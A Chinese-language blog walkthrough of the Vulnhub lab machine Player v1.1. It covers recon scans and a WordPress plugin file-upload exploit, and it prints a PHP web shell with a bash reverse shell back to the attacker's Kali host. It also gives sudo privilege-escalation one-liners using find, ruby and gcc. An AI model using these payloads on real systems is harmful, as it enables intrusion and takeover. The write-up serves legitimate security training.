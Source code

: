 ```yaml
---
layout: post
title: "Player v1.1 walkthrough"
date: 2021-02-14
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP            |
| ------------- | ------------- |
| 本机（Win10） | `172.20.10.5` |
| Kali          | `172.20.10.4` |
| Player-v1.1   | `172.20.10.2` |

### 扫描端口和版本信息

`nmap -A 172.20.10.2`

![1]({{ '/player_v1.1/1.png' | prepend: site.url }})


### 目录枚举

`dirb http://172.20.10.2`只得到一个200路径: `http://172.20.10.2/javascript/jquery/jquery`，不过结果没什么作用,之后在默认界面找到一个链接：`http://172.20.10.2/g@web`，并且在该页面（`http://172.20.10.2/g@web/index.php/author/wp-local/`）中得到一个信息

> AUTHOR: WP-LOCAL
>
> you can upgrade you shell using hackNos@9012!!

得到一个账户名：*wp-local*, 不过暴力破解密码走不通。此外猜测 `hackNos@9012!!`是一个密码，在提 shell会用到

![2]({{ '/player_v1.1/2.png' | prepend: site.url }})


### 访问 Web 并确定 Web 应用

![3]({{ '/player_v1.1/3.png' | prepend: site.url }})

打开网站我们知道使用的 Wordpress，那么就用 *wpscan* 工具来扫描应用

`wpscan --url http://172.20.10.2/g@web -e ap`


```
...
[+] Enumerating Most Popular Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] wp-support-plus-responsive-ticket-system
 | Location: http://172.20.10.2/g@web/wp-content/plugins/wp-support-plus-responsive-ticket-system/
 | Last Updated: 2019-09-03T07:57:00.000Z
 | [!] The version is out of date, the latest version is 9.1.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 6 vulnerabilities identified:
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.0 – Authenticated SQL Injection
 |     Fixed in: 8.0.0
 |     References:
 |      - https://wpscan.com/vulnerability/f267d78f-f1e1-4210-92e4-39cce2872757
 |      - https://www.exploit-db.com/exploits/40939/
 |      - https://lenonleite.com.br/en/2016/12/13/wp-support-plus-responsive-ticket-system-wordpress-plugin-sql-injection/
 |      - https://plugins.trac.wordpress.org/changeset/1556644/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.8 - Remote Code Execution (RCE)
 |     Fixed in: 8.0.8
 |     References:
 |      - https://wpscan.com/vulnerability/1527b75a-362d-47eb-85f5-47763c75b0d1
 |      - https://plugins.trac.wordpress.org/changeset/1763596/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 9.0.3 - Multiple Authenticated SQL Injection
 |     Fixed in: 9.0.3
 |     References:
 |      - https://wpscan.com/vulnerability/cbbdb469-7321-44e4-a83b-cac82b116f20
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1000131
 |      - https://github.com/00theway/exp/blob/master/wordpress/wpsupportplus.md
 |      - https://plugins.trac.wordpress.org/changeset/1814103/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 9.1.2 - Stored XSS
 |     Fixed in: 9.1.2
 |     References:
 |      - https://wpscan.com/vulnerability/e406c3e8-1fab-41fd-845a-104467b0ded4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7299
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15331
 |      - https://cert.kalasag.com.ph/news/research/cve-2019-7299-stored-xss-in-wp-support-plus-responsive-ticket-system/
 |      - https://plugins.trac.wordpress.org/changeset/2024484/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.0 - Privilege Escalation
 |     Fixed in: 8.0.0
 |     References:
 |      - https://wpscan.com/vulnerability/b1808005-0809-4ac7-92c7-1f65e410ac4f
 |      - https://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html
 |      - https://packetstormsecurity.com/files/140413/
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.8 - Remote Code Execution
 |     Fixed in: 8.0.8
 |     References:
 |      - https://wpscan.com/vulnerability/85d3126a-34a3-4799-a94b-76d7b835db5f
 |      - https://plugins.trac.wordpress.org/changeset/1763596
 |
 | Version: 7.1.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.20.10.2/g@web/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://172.20.10.2/g@web/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
 ... 
```

根据结果可知 Wordpress 版本是 5.3.6，并且插件 **WP Support Plus Responsive Ticket System** 存在多个漏洞。毫无疑问利用 [RCE](https://wpscan.com/vulnerability/1527b75a-362d-47eb-85f5-47763c75b0d1) 漏洞是最佳选择。之后将该 payload 保存为 HTML 文件，本地打开后上传 PHP shell 文件

```html
<form method="post" enctype="multipart/form-data" action="https://example.com/wp-admin/admin-ajax.php">
    <input type="hidden" name="action" value="wpsp_upload_attachment">
    Choose a file ending with .phtml:
    <input type="file" name="0">
    <input type="submit" value="Submit">
</form>
```

PHP shell 文件可以写成

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.20.10.4/4455 0>&1'");
?>
```

### Getshell

浏览器打开上传成功的文件，并且在 Kali上监听 *4455* 端口

![4]({{ '/player_v1.1/4.png' | prepend: site.url }})

拿到 shell 后查看 *passwd* 文件得知该系统上有三个账户：*security*，*hackNos-boat*和 *hunter*

之后试了几个账户和密码，最后试出 `security:hackNos@9012!!`可以登录 *security* 账户

### 提权

![5]({{ '/player_v1.1/5.png' | prepend: site.url }})

接下来就是熟悉的操作

`sudo -u hackNos-boat find . -exec /bin/bash -p \; -quit`

切换到 *hackNos-boat* 账户后再执行一遍 `sudo -l`

```bash
sudo -l
Matching Defaults entries for hackNos-boat on hacknos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hackNos-boat may run the following commands on hacknos:
    (hunter) NOPASSWD: /usr/bin/ruby
```

通过 *hunter* 账户执行 */usr/bin/ruby* 命令来切换账户

`sudo -u hanter /usr/bin/ruby -e 'exec "/bin/bash"'`

同理，最终提权到 *root* 账户

`sudo /usr/bin/gcc -wrapper /bin/bash,-s .`

最终读取到 *root* 账户下的文件

![6]({{ '/player_v1.1/6.png' | prepend: site.url }})

